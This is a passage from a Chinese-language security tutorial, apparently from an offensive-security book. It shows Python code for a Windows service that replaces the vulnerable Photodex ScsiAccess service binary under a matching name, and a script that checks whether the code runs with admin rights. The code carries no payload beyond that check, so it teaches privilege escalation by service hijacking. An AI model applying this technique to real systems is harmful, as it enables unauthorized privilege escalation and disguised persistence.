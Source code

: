 ```
            self.SvcStop()

    def SvcStop(self):
        self.ReportServiceStatus(win32service.SERVICE_STOP_PENDING) #tell the Service Manager that we are planning to stop the serivce
        self.stop()
        self.ReportServiceStatus(win32service.SERVICE_STOPPED) #tell the Service Manager that we are currently stopping the service

    def start(self):
        self.runflag=True # mark a service status flag as True and we will Wait in while loop for receiving service stop signal from the service manager

        '''
        This little code is to double check if we got an admin priv, after replacing our malicious service, thanks to IsUserAnAdmin function
        https://msdn.microsoft.com/en-us/library/windows/desktop/bb776463(v=vs.85).aspx

        f = open('C:/Users/nonadmin/Desktop/priv.txt','w')
        if ctypes.windll.shell32.IsUserAnAdmin() == 0:
            f.write('[-] We are NOT admin! ')
        else:
            f.write('[+] We are admin :)')
        f.close()
        '''

        while self.runflag: # Wait for service stop signal
            self.sleep(10)

    def stop(self): # now within the stop function we mark the service status flag as False to break the while loop in the start function
         self.runflag=False
```

在第二部分，我们定义了在接收到服务管理器信号时应该执行的操作，这将在`Service`类中发生。在前两行中，我们指定了服务名称和显示名称。请注意，我选择的名称`ScsiAccess`与 Photodex 软件的原始名称相似。因此，如果我们像上一部分那样从 Windows 任务管理器打开服务，名称将与脆弱软件的服务名称完全匹配。

接下来，我们初始化`ServiceFramework`，并以函数式的方式定义在接收到服务管理器信号时应该执行的操作。例如，如果服务管理器的信号是暂停，那么我们将`sleep`指定的秒数，即`Sleep(sec*1000, True)`。同样，如果信号是启动，那么我们会告诉服务管理器我们计划运行该服务；这将通过通过`ReportServiceStatus()`报告`SERVICE_START_PENDING`状态来完成。然后，在异常处理程序中，我们将告诉服务管理器我们正在启动服务，并且会调用`start()`函数。如果发生任何异常，我们将在这里调用`SvcStop()`函数。

一旦我们执行了`start()`函数，我们将`ServiceStatus`标志设置为`True`，然后我们将在一个`while`循环中等待接收来自服务管理器的停止信号。如果我们收到此信号，我们将转到`stop()`函数，最终将标志切换为`False`。现在，在`stop()`函数内部，我们将执行与`start()`函数类似的过程。因此，我们会告诉服务管理器我们计划停止服务，然后执行`stop()`函数，最后告诉服务管理器我们当前正在停止服务。现在，在`stop()`函数中，我们将服务状态标志设置为`False`，以打破`start()`函数中的无限循环。现在，如果我将此脚本导出为 EXE 文件，并用它替代`sciaccess.exe`并重启机器，应该可以正常工作。然而，我想再进一步，证明我们获得了系统权限。那么，让我们确保利用过程正常工作。为此，我编写了一个快速的 Python 脚本来检查我们是否以管理员身份运行：

```
# Are we Admin

import ctypes

if ctypes.windll.shell32.IsUserAnAdmin() == 0:
    print '[-] We are NOT admin! '
else:
    print '[+] We are admin :) '
```
